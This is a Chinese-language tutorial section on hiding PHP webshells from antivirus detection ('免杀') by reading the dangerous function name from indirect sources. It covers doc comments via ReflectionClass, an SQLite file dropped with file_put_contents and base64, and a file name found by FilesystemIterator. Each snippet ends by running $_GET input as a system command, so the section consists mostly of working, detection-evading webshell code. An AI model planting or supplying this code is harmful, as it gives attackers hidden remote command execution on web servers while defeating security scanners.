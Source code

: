 ## 11# 读取字符串绕过

重点还是放在高危函数上，通过读取各种东西来获得对应字符串

### 11.1 读取注释

这里用到读取注释的函数

```php
ReflectionClass::getDocComment
```

例子如下：

```php
    /**   
    * system($_GET[aabyss]);
    */  
class User { }  
$user = new ReflectionClass('User');
$comment = $user->getDocComment();
$f = substr($comment , 14 , 22);
eval($f);
```

### 11.2 读取数据库

可以通过 `file_put_contents` 文件写入函数写入一个 Sqlite 的数据库

```php
$datatest = "[文件的base64编码]";
file_put_contents('./要写入的文件名', base64_decode($datatest));
```

然后通过 PHP 读取数据库内容提取高危函数，从而达到 WebShell 免杀效果

```php
$path = "数据库文件名"

$db = new PDO("sqlite:" . $path);

$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();

$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['b']);
```

### 11.3 读取目录

`FilesystemIterator` 是一个迭代器，可以获取到目标目录下的所有文件信息

```php
public FilesystemIterator::next ( void ) : void
```

可以尝试使用 `file_put_contents` 写入一个名为 `system.aabyss` 的空文件，然后遍历目录拿到字符串 `system` ，成功 ByPass

